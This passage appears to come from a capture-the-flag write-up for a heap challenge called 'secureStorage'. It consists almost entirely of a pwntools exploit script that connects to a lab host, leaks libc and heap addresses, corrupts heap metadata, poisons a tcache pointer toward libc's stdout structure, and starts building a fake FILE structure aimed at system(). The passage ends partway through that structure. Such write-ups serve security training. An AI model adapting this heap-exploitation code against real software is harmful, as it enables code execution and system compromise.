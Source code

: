 Now, we can simply modify it to run against the target as follows, and here is the full script:

```py
#!/usr/bin/env python3

from pwn import *

context.update(arch="amd64", os="linux", log_level="debug")
context.binary = elf = ELF("./secureStorage", checksec=False)
libc = ELF("./libc.so.6", checksec=False)

r = remote("10.10.14.175", 1337)

def add(index, size, content):
    r.sendlineafter(b'\n>> ', b'1')
    r.sendlineafter(b'Enter permit index:\n', str(index).encode())
    r.sendlineafter(b'Enter entry size:\n', str(size).encode())
    r.sendlineafter(b'Enter entry data:\n', content)

def show(index):
    r.sendlineafter(b'\n>> ', b'2')
    r.sendlineafter(b'Enter entry index:\n', str(index).encode())

def edit(index, content):
    r.sendlineafter(b'\n>> ', b'3')
    r.sendlineafter(b'Enter entry index:\n', str(index).encode())
    r.sendlineafter(b'Enter data:\n', content)

add(0, 352, b"A"*8)
edit(0, b"A"*352 + p64(0) + p64(0xc01))
add(1, 0x1000, b"A"*8)
add(2, 64, b"A")
edit(2, b"A"*8)
show(2)
libc_leak = u64(r.recvuntil(b"\n[1]")[-9:-4].ljust(8, b"\x00")) * 256 # to account for overwritten null byte
print(f"[+] Libc Leak: {hex(libc_leak)}")
libc_base = libc_leak - 0x204100
print(f"[+] Libc Base : {hex(libc_base)}")
edit(2, b"A"*16)
show(2)
heap_leak = u64(r.recvuntil(b"\n[1]")[-9:-4].ljust(8, b"\x00")) * 256 # to account for overwritten null byte
print(f"[+] Heap Leak: {hex(heap_leak)}")
heap_base = heap_leak - 0x400
print(f"[+] Heap Base : {hex(heap_base)}")

add(3, 0xd98, b"A"*0xd98 + p64(0x251))
add(4, 0xda8, b"A"*0xda8 + p64(0x251))
add(5, 0x1000, b"A")

libc.address = libc_base
stdout = libc.sym['_IO_2_1_stdout_']
last_addr = heap_base + 0x43dc0
stdout_enc = stdout ^ last_addr >> 12
edit(4, b"A"*0xda8 + p64(0x231) + p64(stdout_enc))

add(6, 0x228, b"A")
add(7, 0x228, b"A")

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end = libc.sym['system']
fake._IO_save_base = libc.address + 0x1724f0  # add rdi, 0x10 ; jmp rcx
```